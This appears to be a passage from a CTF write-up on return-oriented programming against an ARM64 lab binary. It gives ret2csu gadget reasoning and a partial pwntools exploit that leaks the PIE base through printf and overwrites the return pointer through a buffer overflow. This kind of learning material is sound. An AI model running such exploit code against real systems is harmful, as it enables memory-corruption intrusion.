 Now x21 is actually NULL, after I ret to main and the other pre-req that x19 and x20 offsets are writeable is interesting, becuase during the ret2csu we did earlier, the popper is passed through a second time before the ret. This means we can probably tack on some addresses in our previous section adn control x19 and x20 to point to the stack, set x21 null for sure and call the second gadget at `libc_base + 0x3f0e0:` First up, I just set the registers to be the stack leak, thinking that the offsets will probably land on the stack so why not 😎.

That works, now I'm using the stack pointer to point to the libc ret, but I need to find its offset from the leaked stack:

![More ROP](/assets/images/posts/baby_arm_rop/rop_2.png)

So I can ret to stack_pointer + 0xc0

```python
#!/usr/bin/env python3

from pwn import *
from sys import exit

context.log_level="DEBUG"
context.binary = elf = ELF("./vuln/vuln")
libc = ELF("./vuln/lib/libc.so.6")

p = remote("127.0.0.1",1337)

################### Phase 1 - PIE Leak ###################
name = b"A"*8
# LEak pie base using printf
p.sendlineafter(b"name: ",name)
p.readuntil(name)
PIE_BASE = p.readuntil("\n; send", drop=True)   # Raw bytes of addr
PIE_BASE = PIE_BASE.ljust(8, b"\x00")           # Pack out to full 64 bits
PIE_BASE = u64(PIE_BASE)                        # Unpack 64 bit addre
PIE_BASE = PIE_BASE - 0x80a                     # subtract the offset found in GDB to get PIE base
#PIE_BASE = u64(p.readuntil("\n; send",drop=True).ljust(8,b"\x00")) - 2058
log.success(f"Leaked PIE base : {hex(PIE_BASE)}")
# Set the PIE base on the context binary
elf.address = PIE_BASE

log.info(f"{hex(elf.got['printf'])=}")

############ Phase 2 - Leak A Stack Addr  #################

# Including the stack leak even though it's not needed, for learning:

# Set up the buffer overflow to call vuln again to leak some more
message = b"A"*0x20 #
message += b"S"*8   # Saved Frame
message += p64(elf.symbols['vuln']+0x18)   # RP overwrite - we're BOFing here to return to printf and leak more
```